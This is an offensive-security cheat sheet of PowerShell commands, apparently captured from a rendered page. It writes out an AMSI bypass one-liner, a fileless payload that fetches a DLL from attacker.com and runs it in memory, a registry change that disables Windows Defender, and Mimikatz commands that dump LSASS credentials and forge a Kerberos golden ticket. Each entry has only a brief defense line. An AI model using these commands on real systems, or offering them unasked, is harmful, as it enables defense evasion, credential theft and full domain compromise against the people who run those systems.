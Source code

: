 
### **Most "Powerful" PowerShell Commands**  
These commands are highly impactful in offensive security due to their ability to bypass defenses, manipulate systems at a deep level, or evade detection.  

---

### **1. Unstoppable (or Nearly Unstoppable) Commands**  
*(When executed with sufficient privileges and no layered defenses)*  

#### **A. AMSI Bypass (Disables Antimalware Scan Interface)**  
```powershell  
# Memory-patching AMSI (undetectable if done pre-scan)  
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiContext','NonPublic,Static').SetValue($null,$null)  
```  
- **Why Unstoppable?**: Disables script scanning in real-time.  
- **Defense**: Enable **Tamper Protection** in Defender.  

#### **B. Reflective DLL Injection**  
```powershell  
# Load a malicious DLL directly into memory (no disk writes)  
$bytes = (Invoke-WebRequest -Uri "http://attacker.com/shellcode.dll").Content;  
[System.Reflection.Assembly]::Load($bytes).EntryPoint.Invoke($null, $null)  
```  
- **Why Unstoppable?**: Fileless execution bypasses traditional antivirus.  
- **Defense**: Use **Constrained Language Mode** and EDR tools.  

#### **C. Disabling Defender via Registry**  
```powershell  
# Kill Defender permanently via registry  
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name "DisableAntiSpyware" -Value 1  
```  
- **Why Unstoppable?**: Disables Defender if Tamper Protection is off.  
- **Defense**: Enable **Tamper Protection**.  

---

### **2. High-Impact Commands**  
#### **A. Dump LSASS Memory (Credential Theft)**  
```powershell  
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'  
```  
- **Impact**: Extracts plaintext passwords, Kerberos tickets, and NTLM hashes.  
- **Defense**: Enable **LSASS Protection** (`RunAsPPL`).  

#### **B. Golden Ticket Attack**  
```powershell  
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:corp.com /sid:S-1-5-21-... /krbtgt:HASH /ticket:C:\golden.kirbi"'  
```  
- **Impact**: Forges Kerberos tickets for unlimited domain access.  
- **Defense**: Rotate krbtgt account passwords twice.  
